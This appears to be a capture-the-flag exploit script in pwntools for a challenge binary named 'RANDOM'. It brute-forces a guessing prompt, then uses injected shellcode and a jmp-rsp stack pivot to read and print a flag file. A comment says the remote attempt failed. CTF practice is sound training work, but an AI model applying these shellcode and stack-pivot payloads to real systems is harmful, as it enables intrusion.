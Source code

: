 ```
from pwn import *
from ctypes import *
context(log_level='debug',arch='amd64',os='linux')

cdll=CDLL('/lib/x86_64-linux-gnu/libc.so.6')
io=process('./RANDOM')
#io=remote('node5.anna.nssctf.cn',28437)

cdll.srand(cdll.time(0))

payload2=asm(shellcraft.open('./flag'))
payload2+=asm(shellcraft.read(3,0x601068,0x50))
payload2+=asm(shellcraft.write(1,0x601068,0x50))

for i in range(100):
    io.recvuntil('please input a guess num:\n')
    io.sendline('1')
    s=io.recvline()
    print('s:',s)
    if len(s)==10:
        break
           #0x7ffefe218000
#这个我是真没办法了，毕竟异地随机数结果不同

gdb.attach(io)
payload=asm(shellcraft.write(1,'r8',0x10))
payload+=asm("mov rbx,0x40091D;jmp rbx")

payload=payload.ljust(0x28,b'\x00')

jmp_rsp=0x40094E
payload+=p64(jmp_rsp)
payload+=asm("sub rsp,48;jmp rsp")
payload=payload.ljust(0x40,b'\x00')

io.recvuntil('your door\n')
io.send(payload)
stack=u64(io.recv(6).ljust(8,b'\x00'))
print('stack:',hex(stack))

io.recvuntil('your door')

aim=stack-0x200

payload1=asm(shellcraft.read(0,aim,0x50))
payload1+=asm("jmp rsi")
payload1=payload1.ljust(0x28,b'\x00')
print('len:',hex(len(payload1)))
payload1+=p64(jmp_rsp)
payload1+=asm("sub rsp,48;jmp rsp")
payload1=payload1.ljust(0x40,b'\x00')

io.send(payload1)

io.send(payload2)

io.interactive()
```



完成！